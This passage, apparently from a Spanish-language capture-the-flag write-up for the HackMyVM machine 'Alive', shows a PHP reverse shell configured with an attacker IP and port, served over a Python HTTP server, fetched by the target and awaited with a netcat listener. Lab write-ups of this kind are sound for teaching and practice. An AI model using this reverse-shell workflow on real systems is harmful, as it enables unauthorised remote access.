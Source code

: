 Para ello tendremos que crearnos un fichero `PHP` con una `Reverse Shell`, yo siempre utilizo la de `PentestMonkey` en [GitHub](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

Antes de vulnerar la máquina necesitamos cambiar unos parámetros en el fichero `PHP`:

```php
$ip = '192.168.1.105';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

Una vez hayamos cambiado la `IP` y el puerto al que queramos podemos continuar con la descarga del fichero, para ello tendremos que iniciar un servidor con `Python`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Alive/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

¡Bien! Ahora tenemos que ir a la web y copiar lo siguiente:

![upload-shell](/assets/img/imgs/alive/upload-shell.png)

De nuestro lado recibiremos una petición al fichero solicitado:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Alive/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.111 - - [16/Apr/2023 16:15:55] "GET /shell.php HTTP/1.1" 200 -
```

¡Estupendo! Ya estamos preparados para obtener la `Shell`, para ello tendremos que ponernos en escucha por el puerto que hayamos especificado anteriormente, en mi caso el puerto `4444`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Alive]
└─# nc -nlvp 4444 
listening on [any] 4444 ...
```

Una vez en escucha debemos irnos al directorio `tmp` que habíamos descubierto, ahí veremos el fichero `PHP`:

![dir-shell](/assets/img/imgs/alive/dir-shell.png)
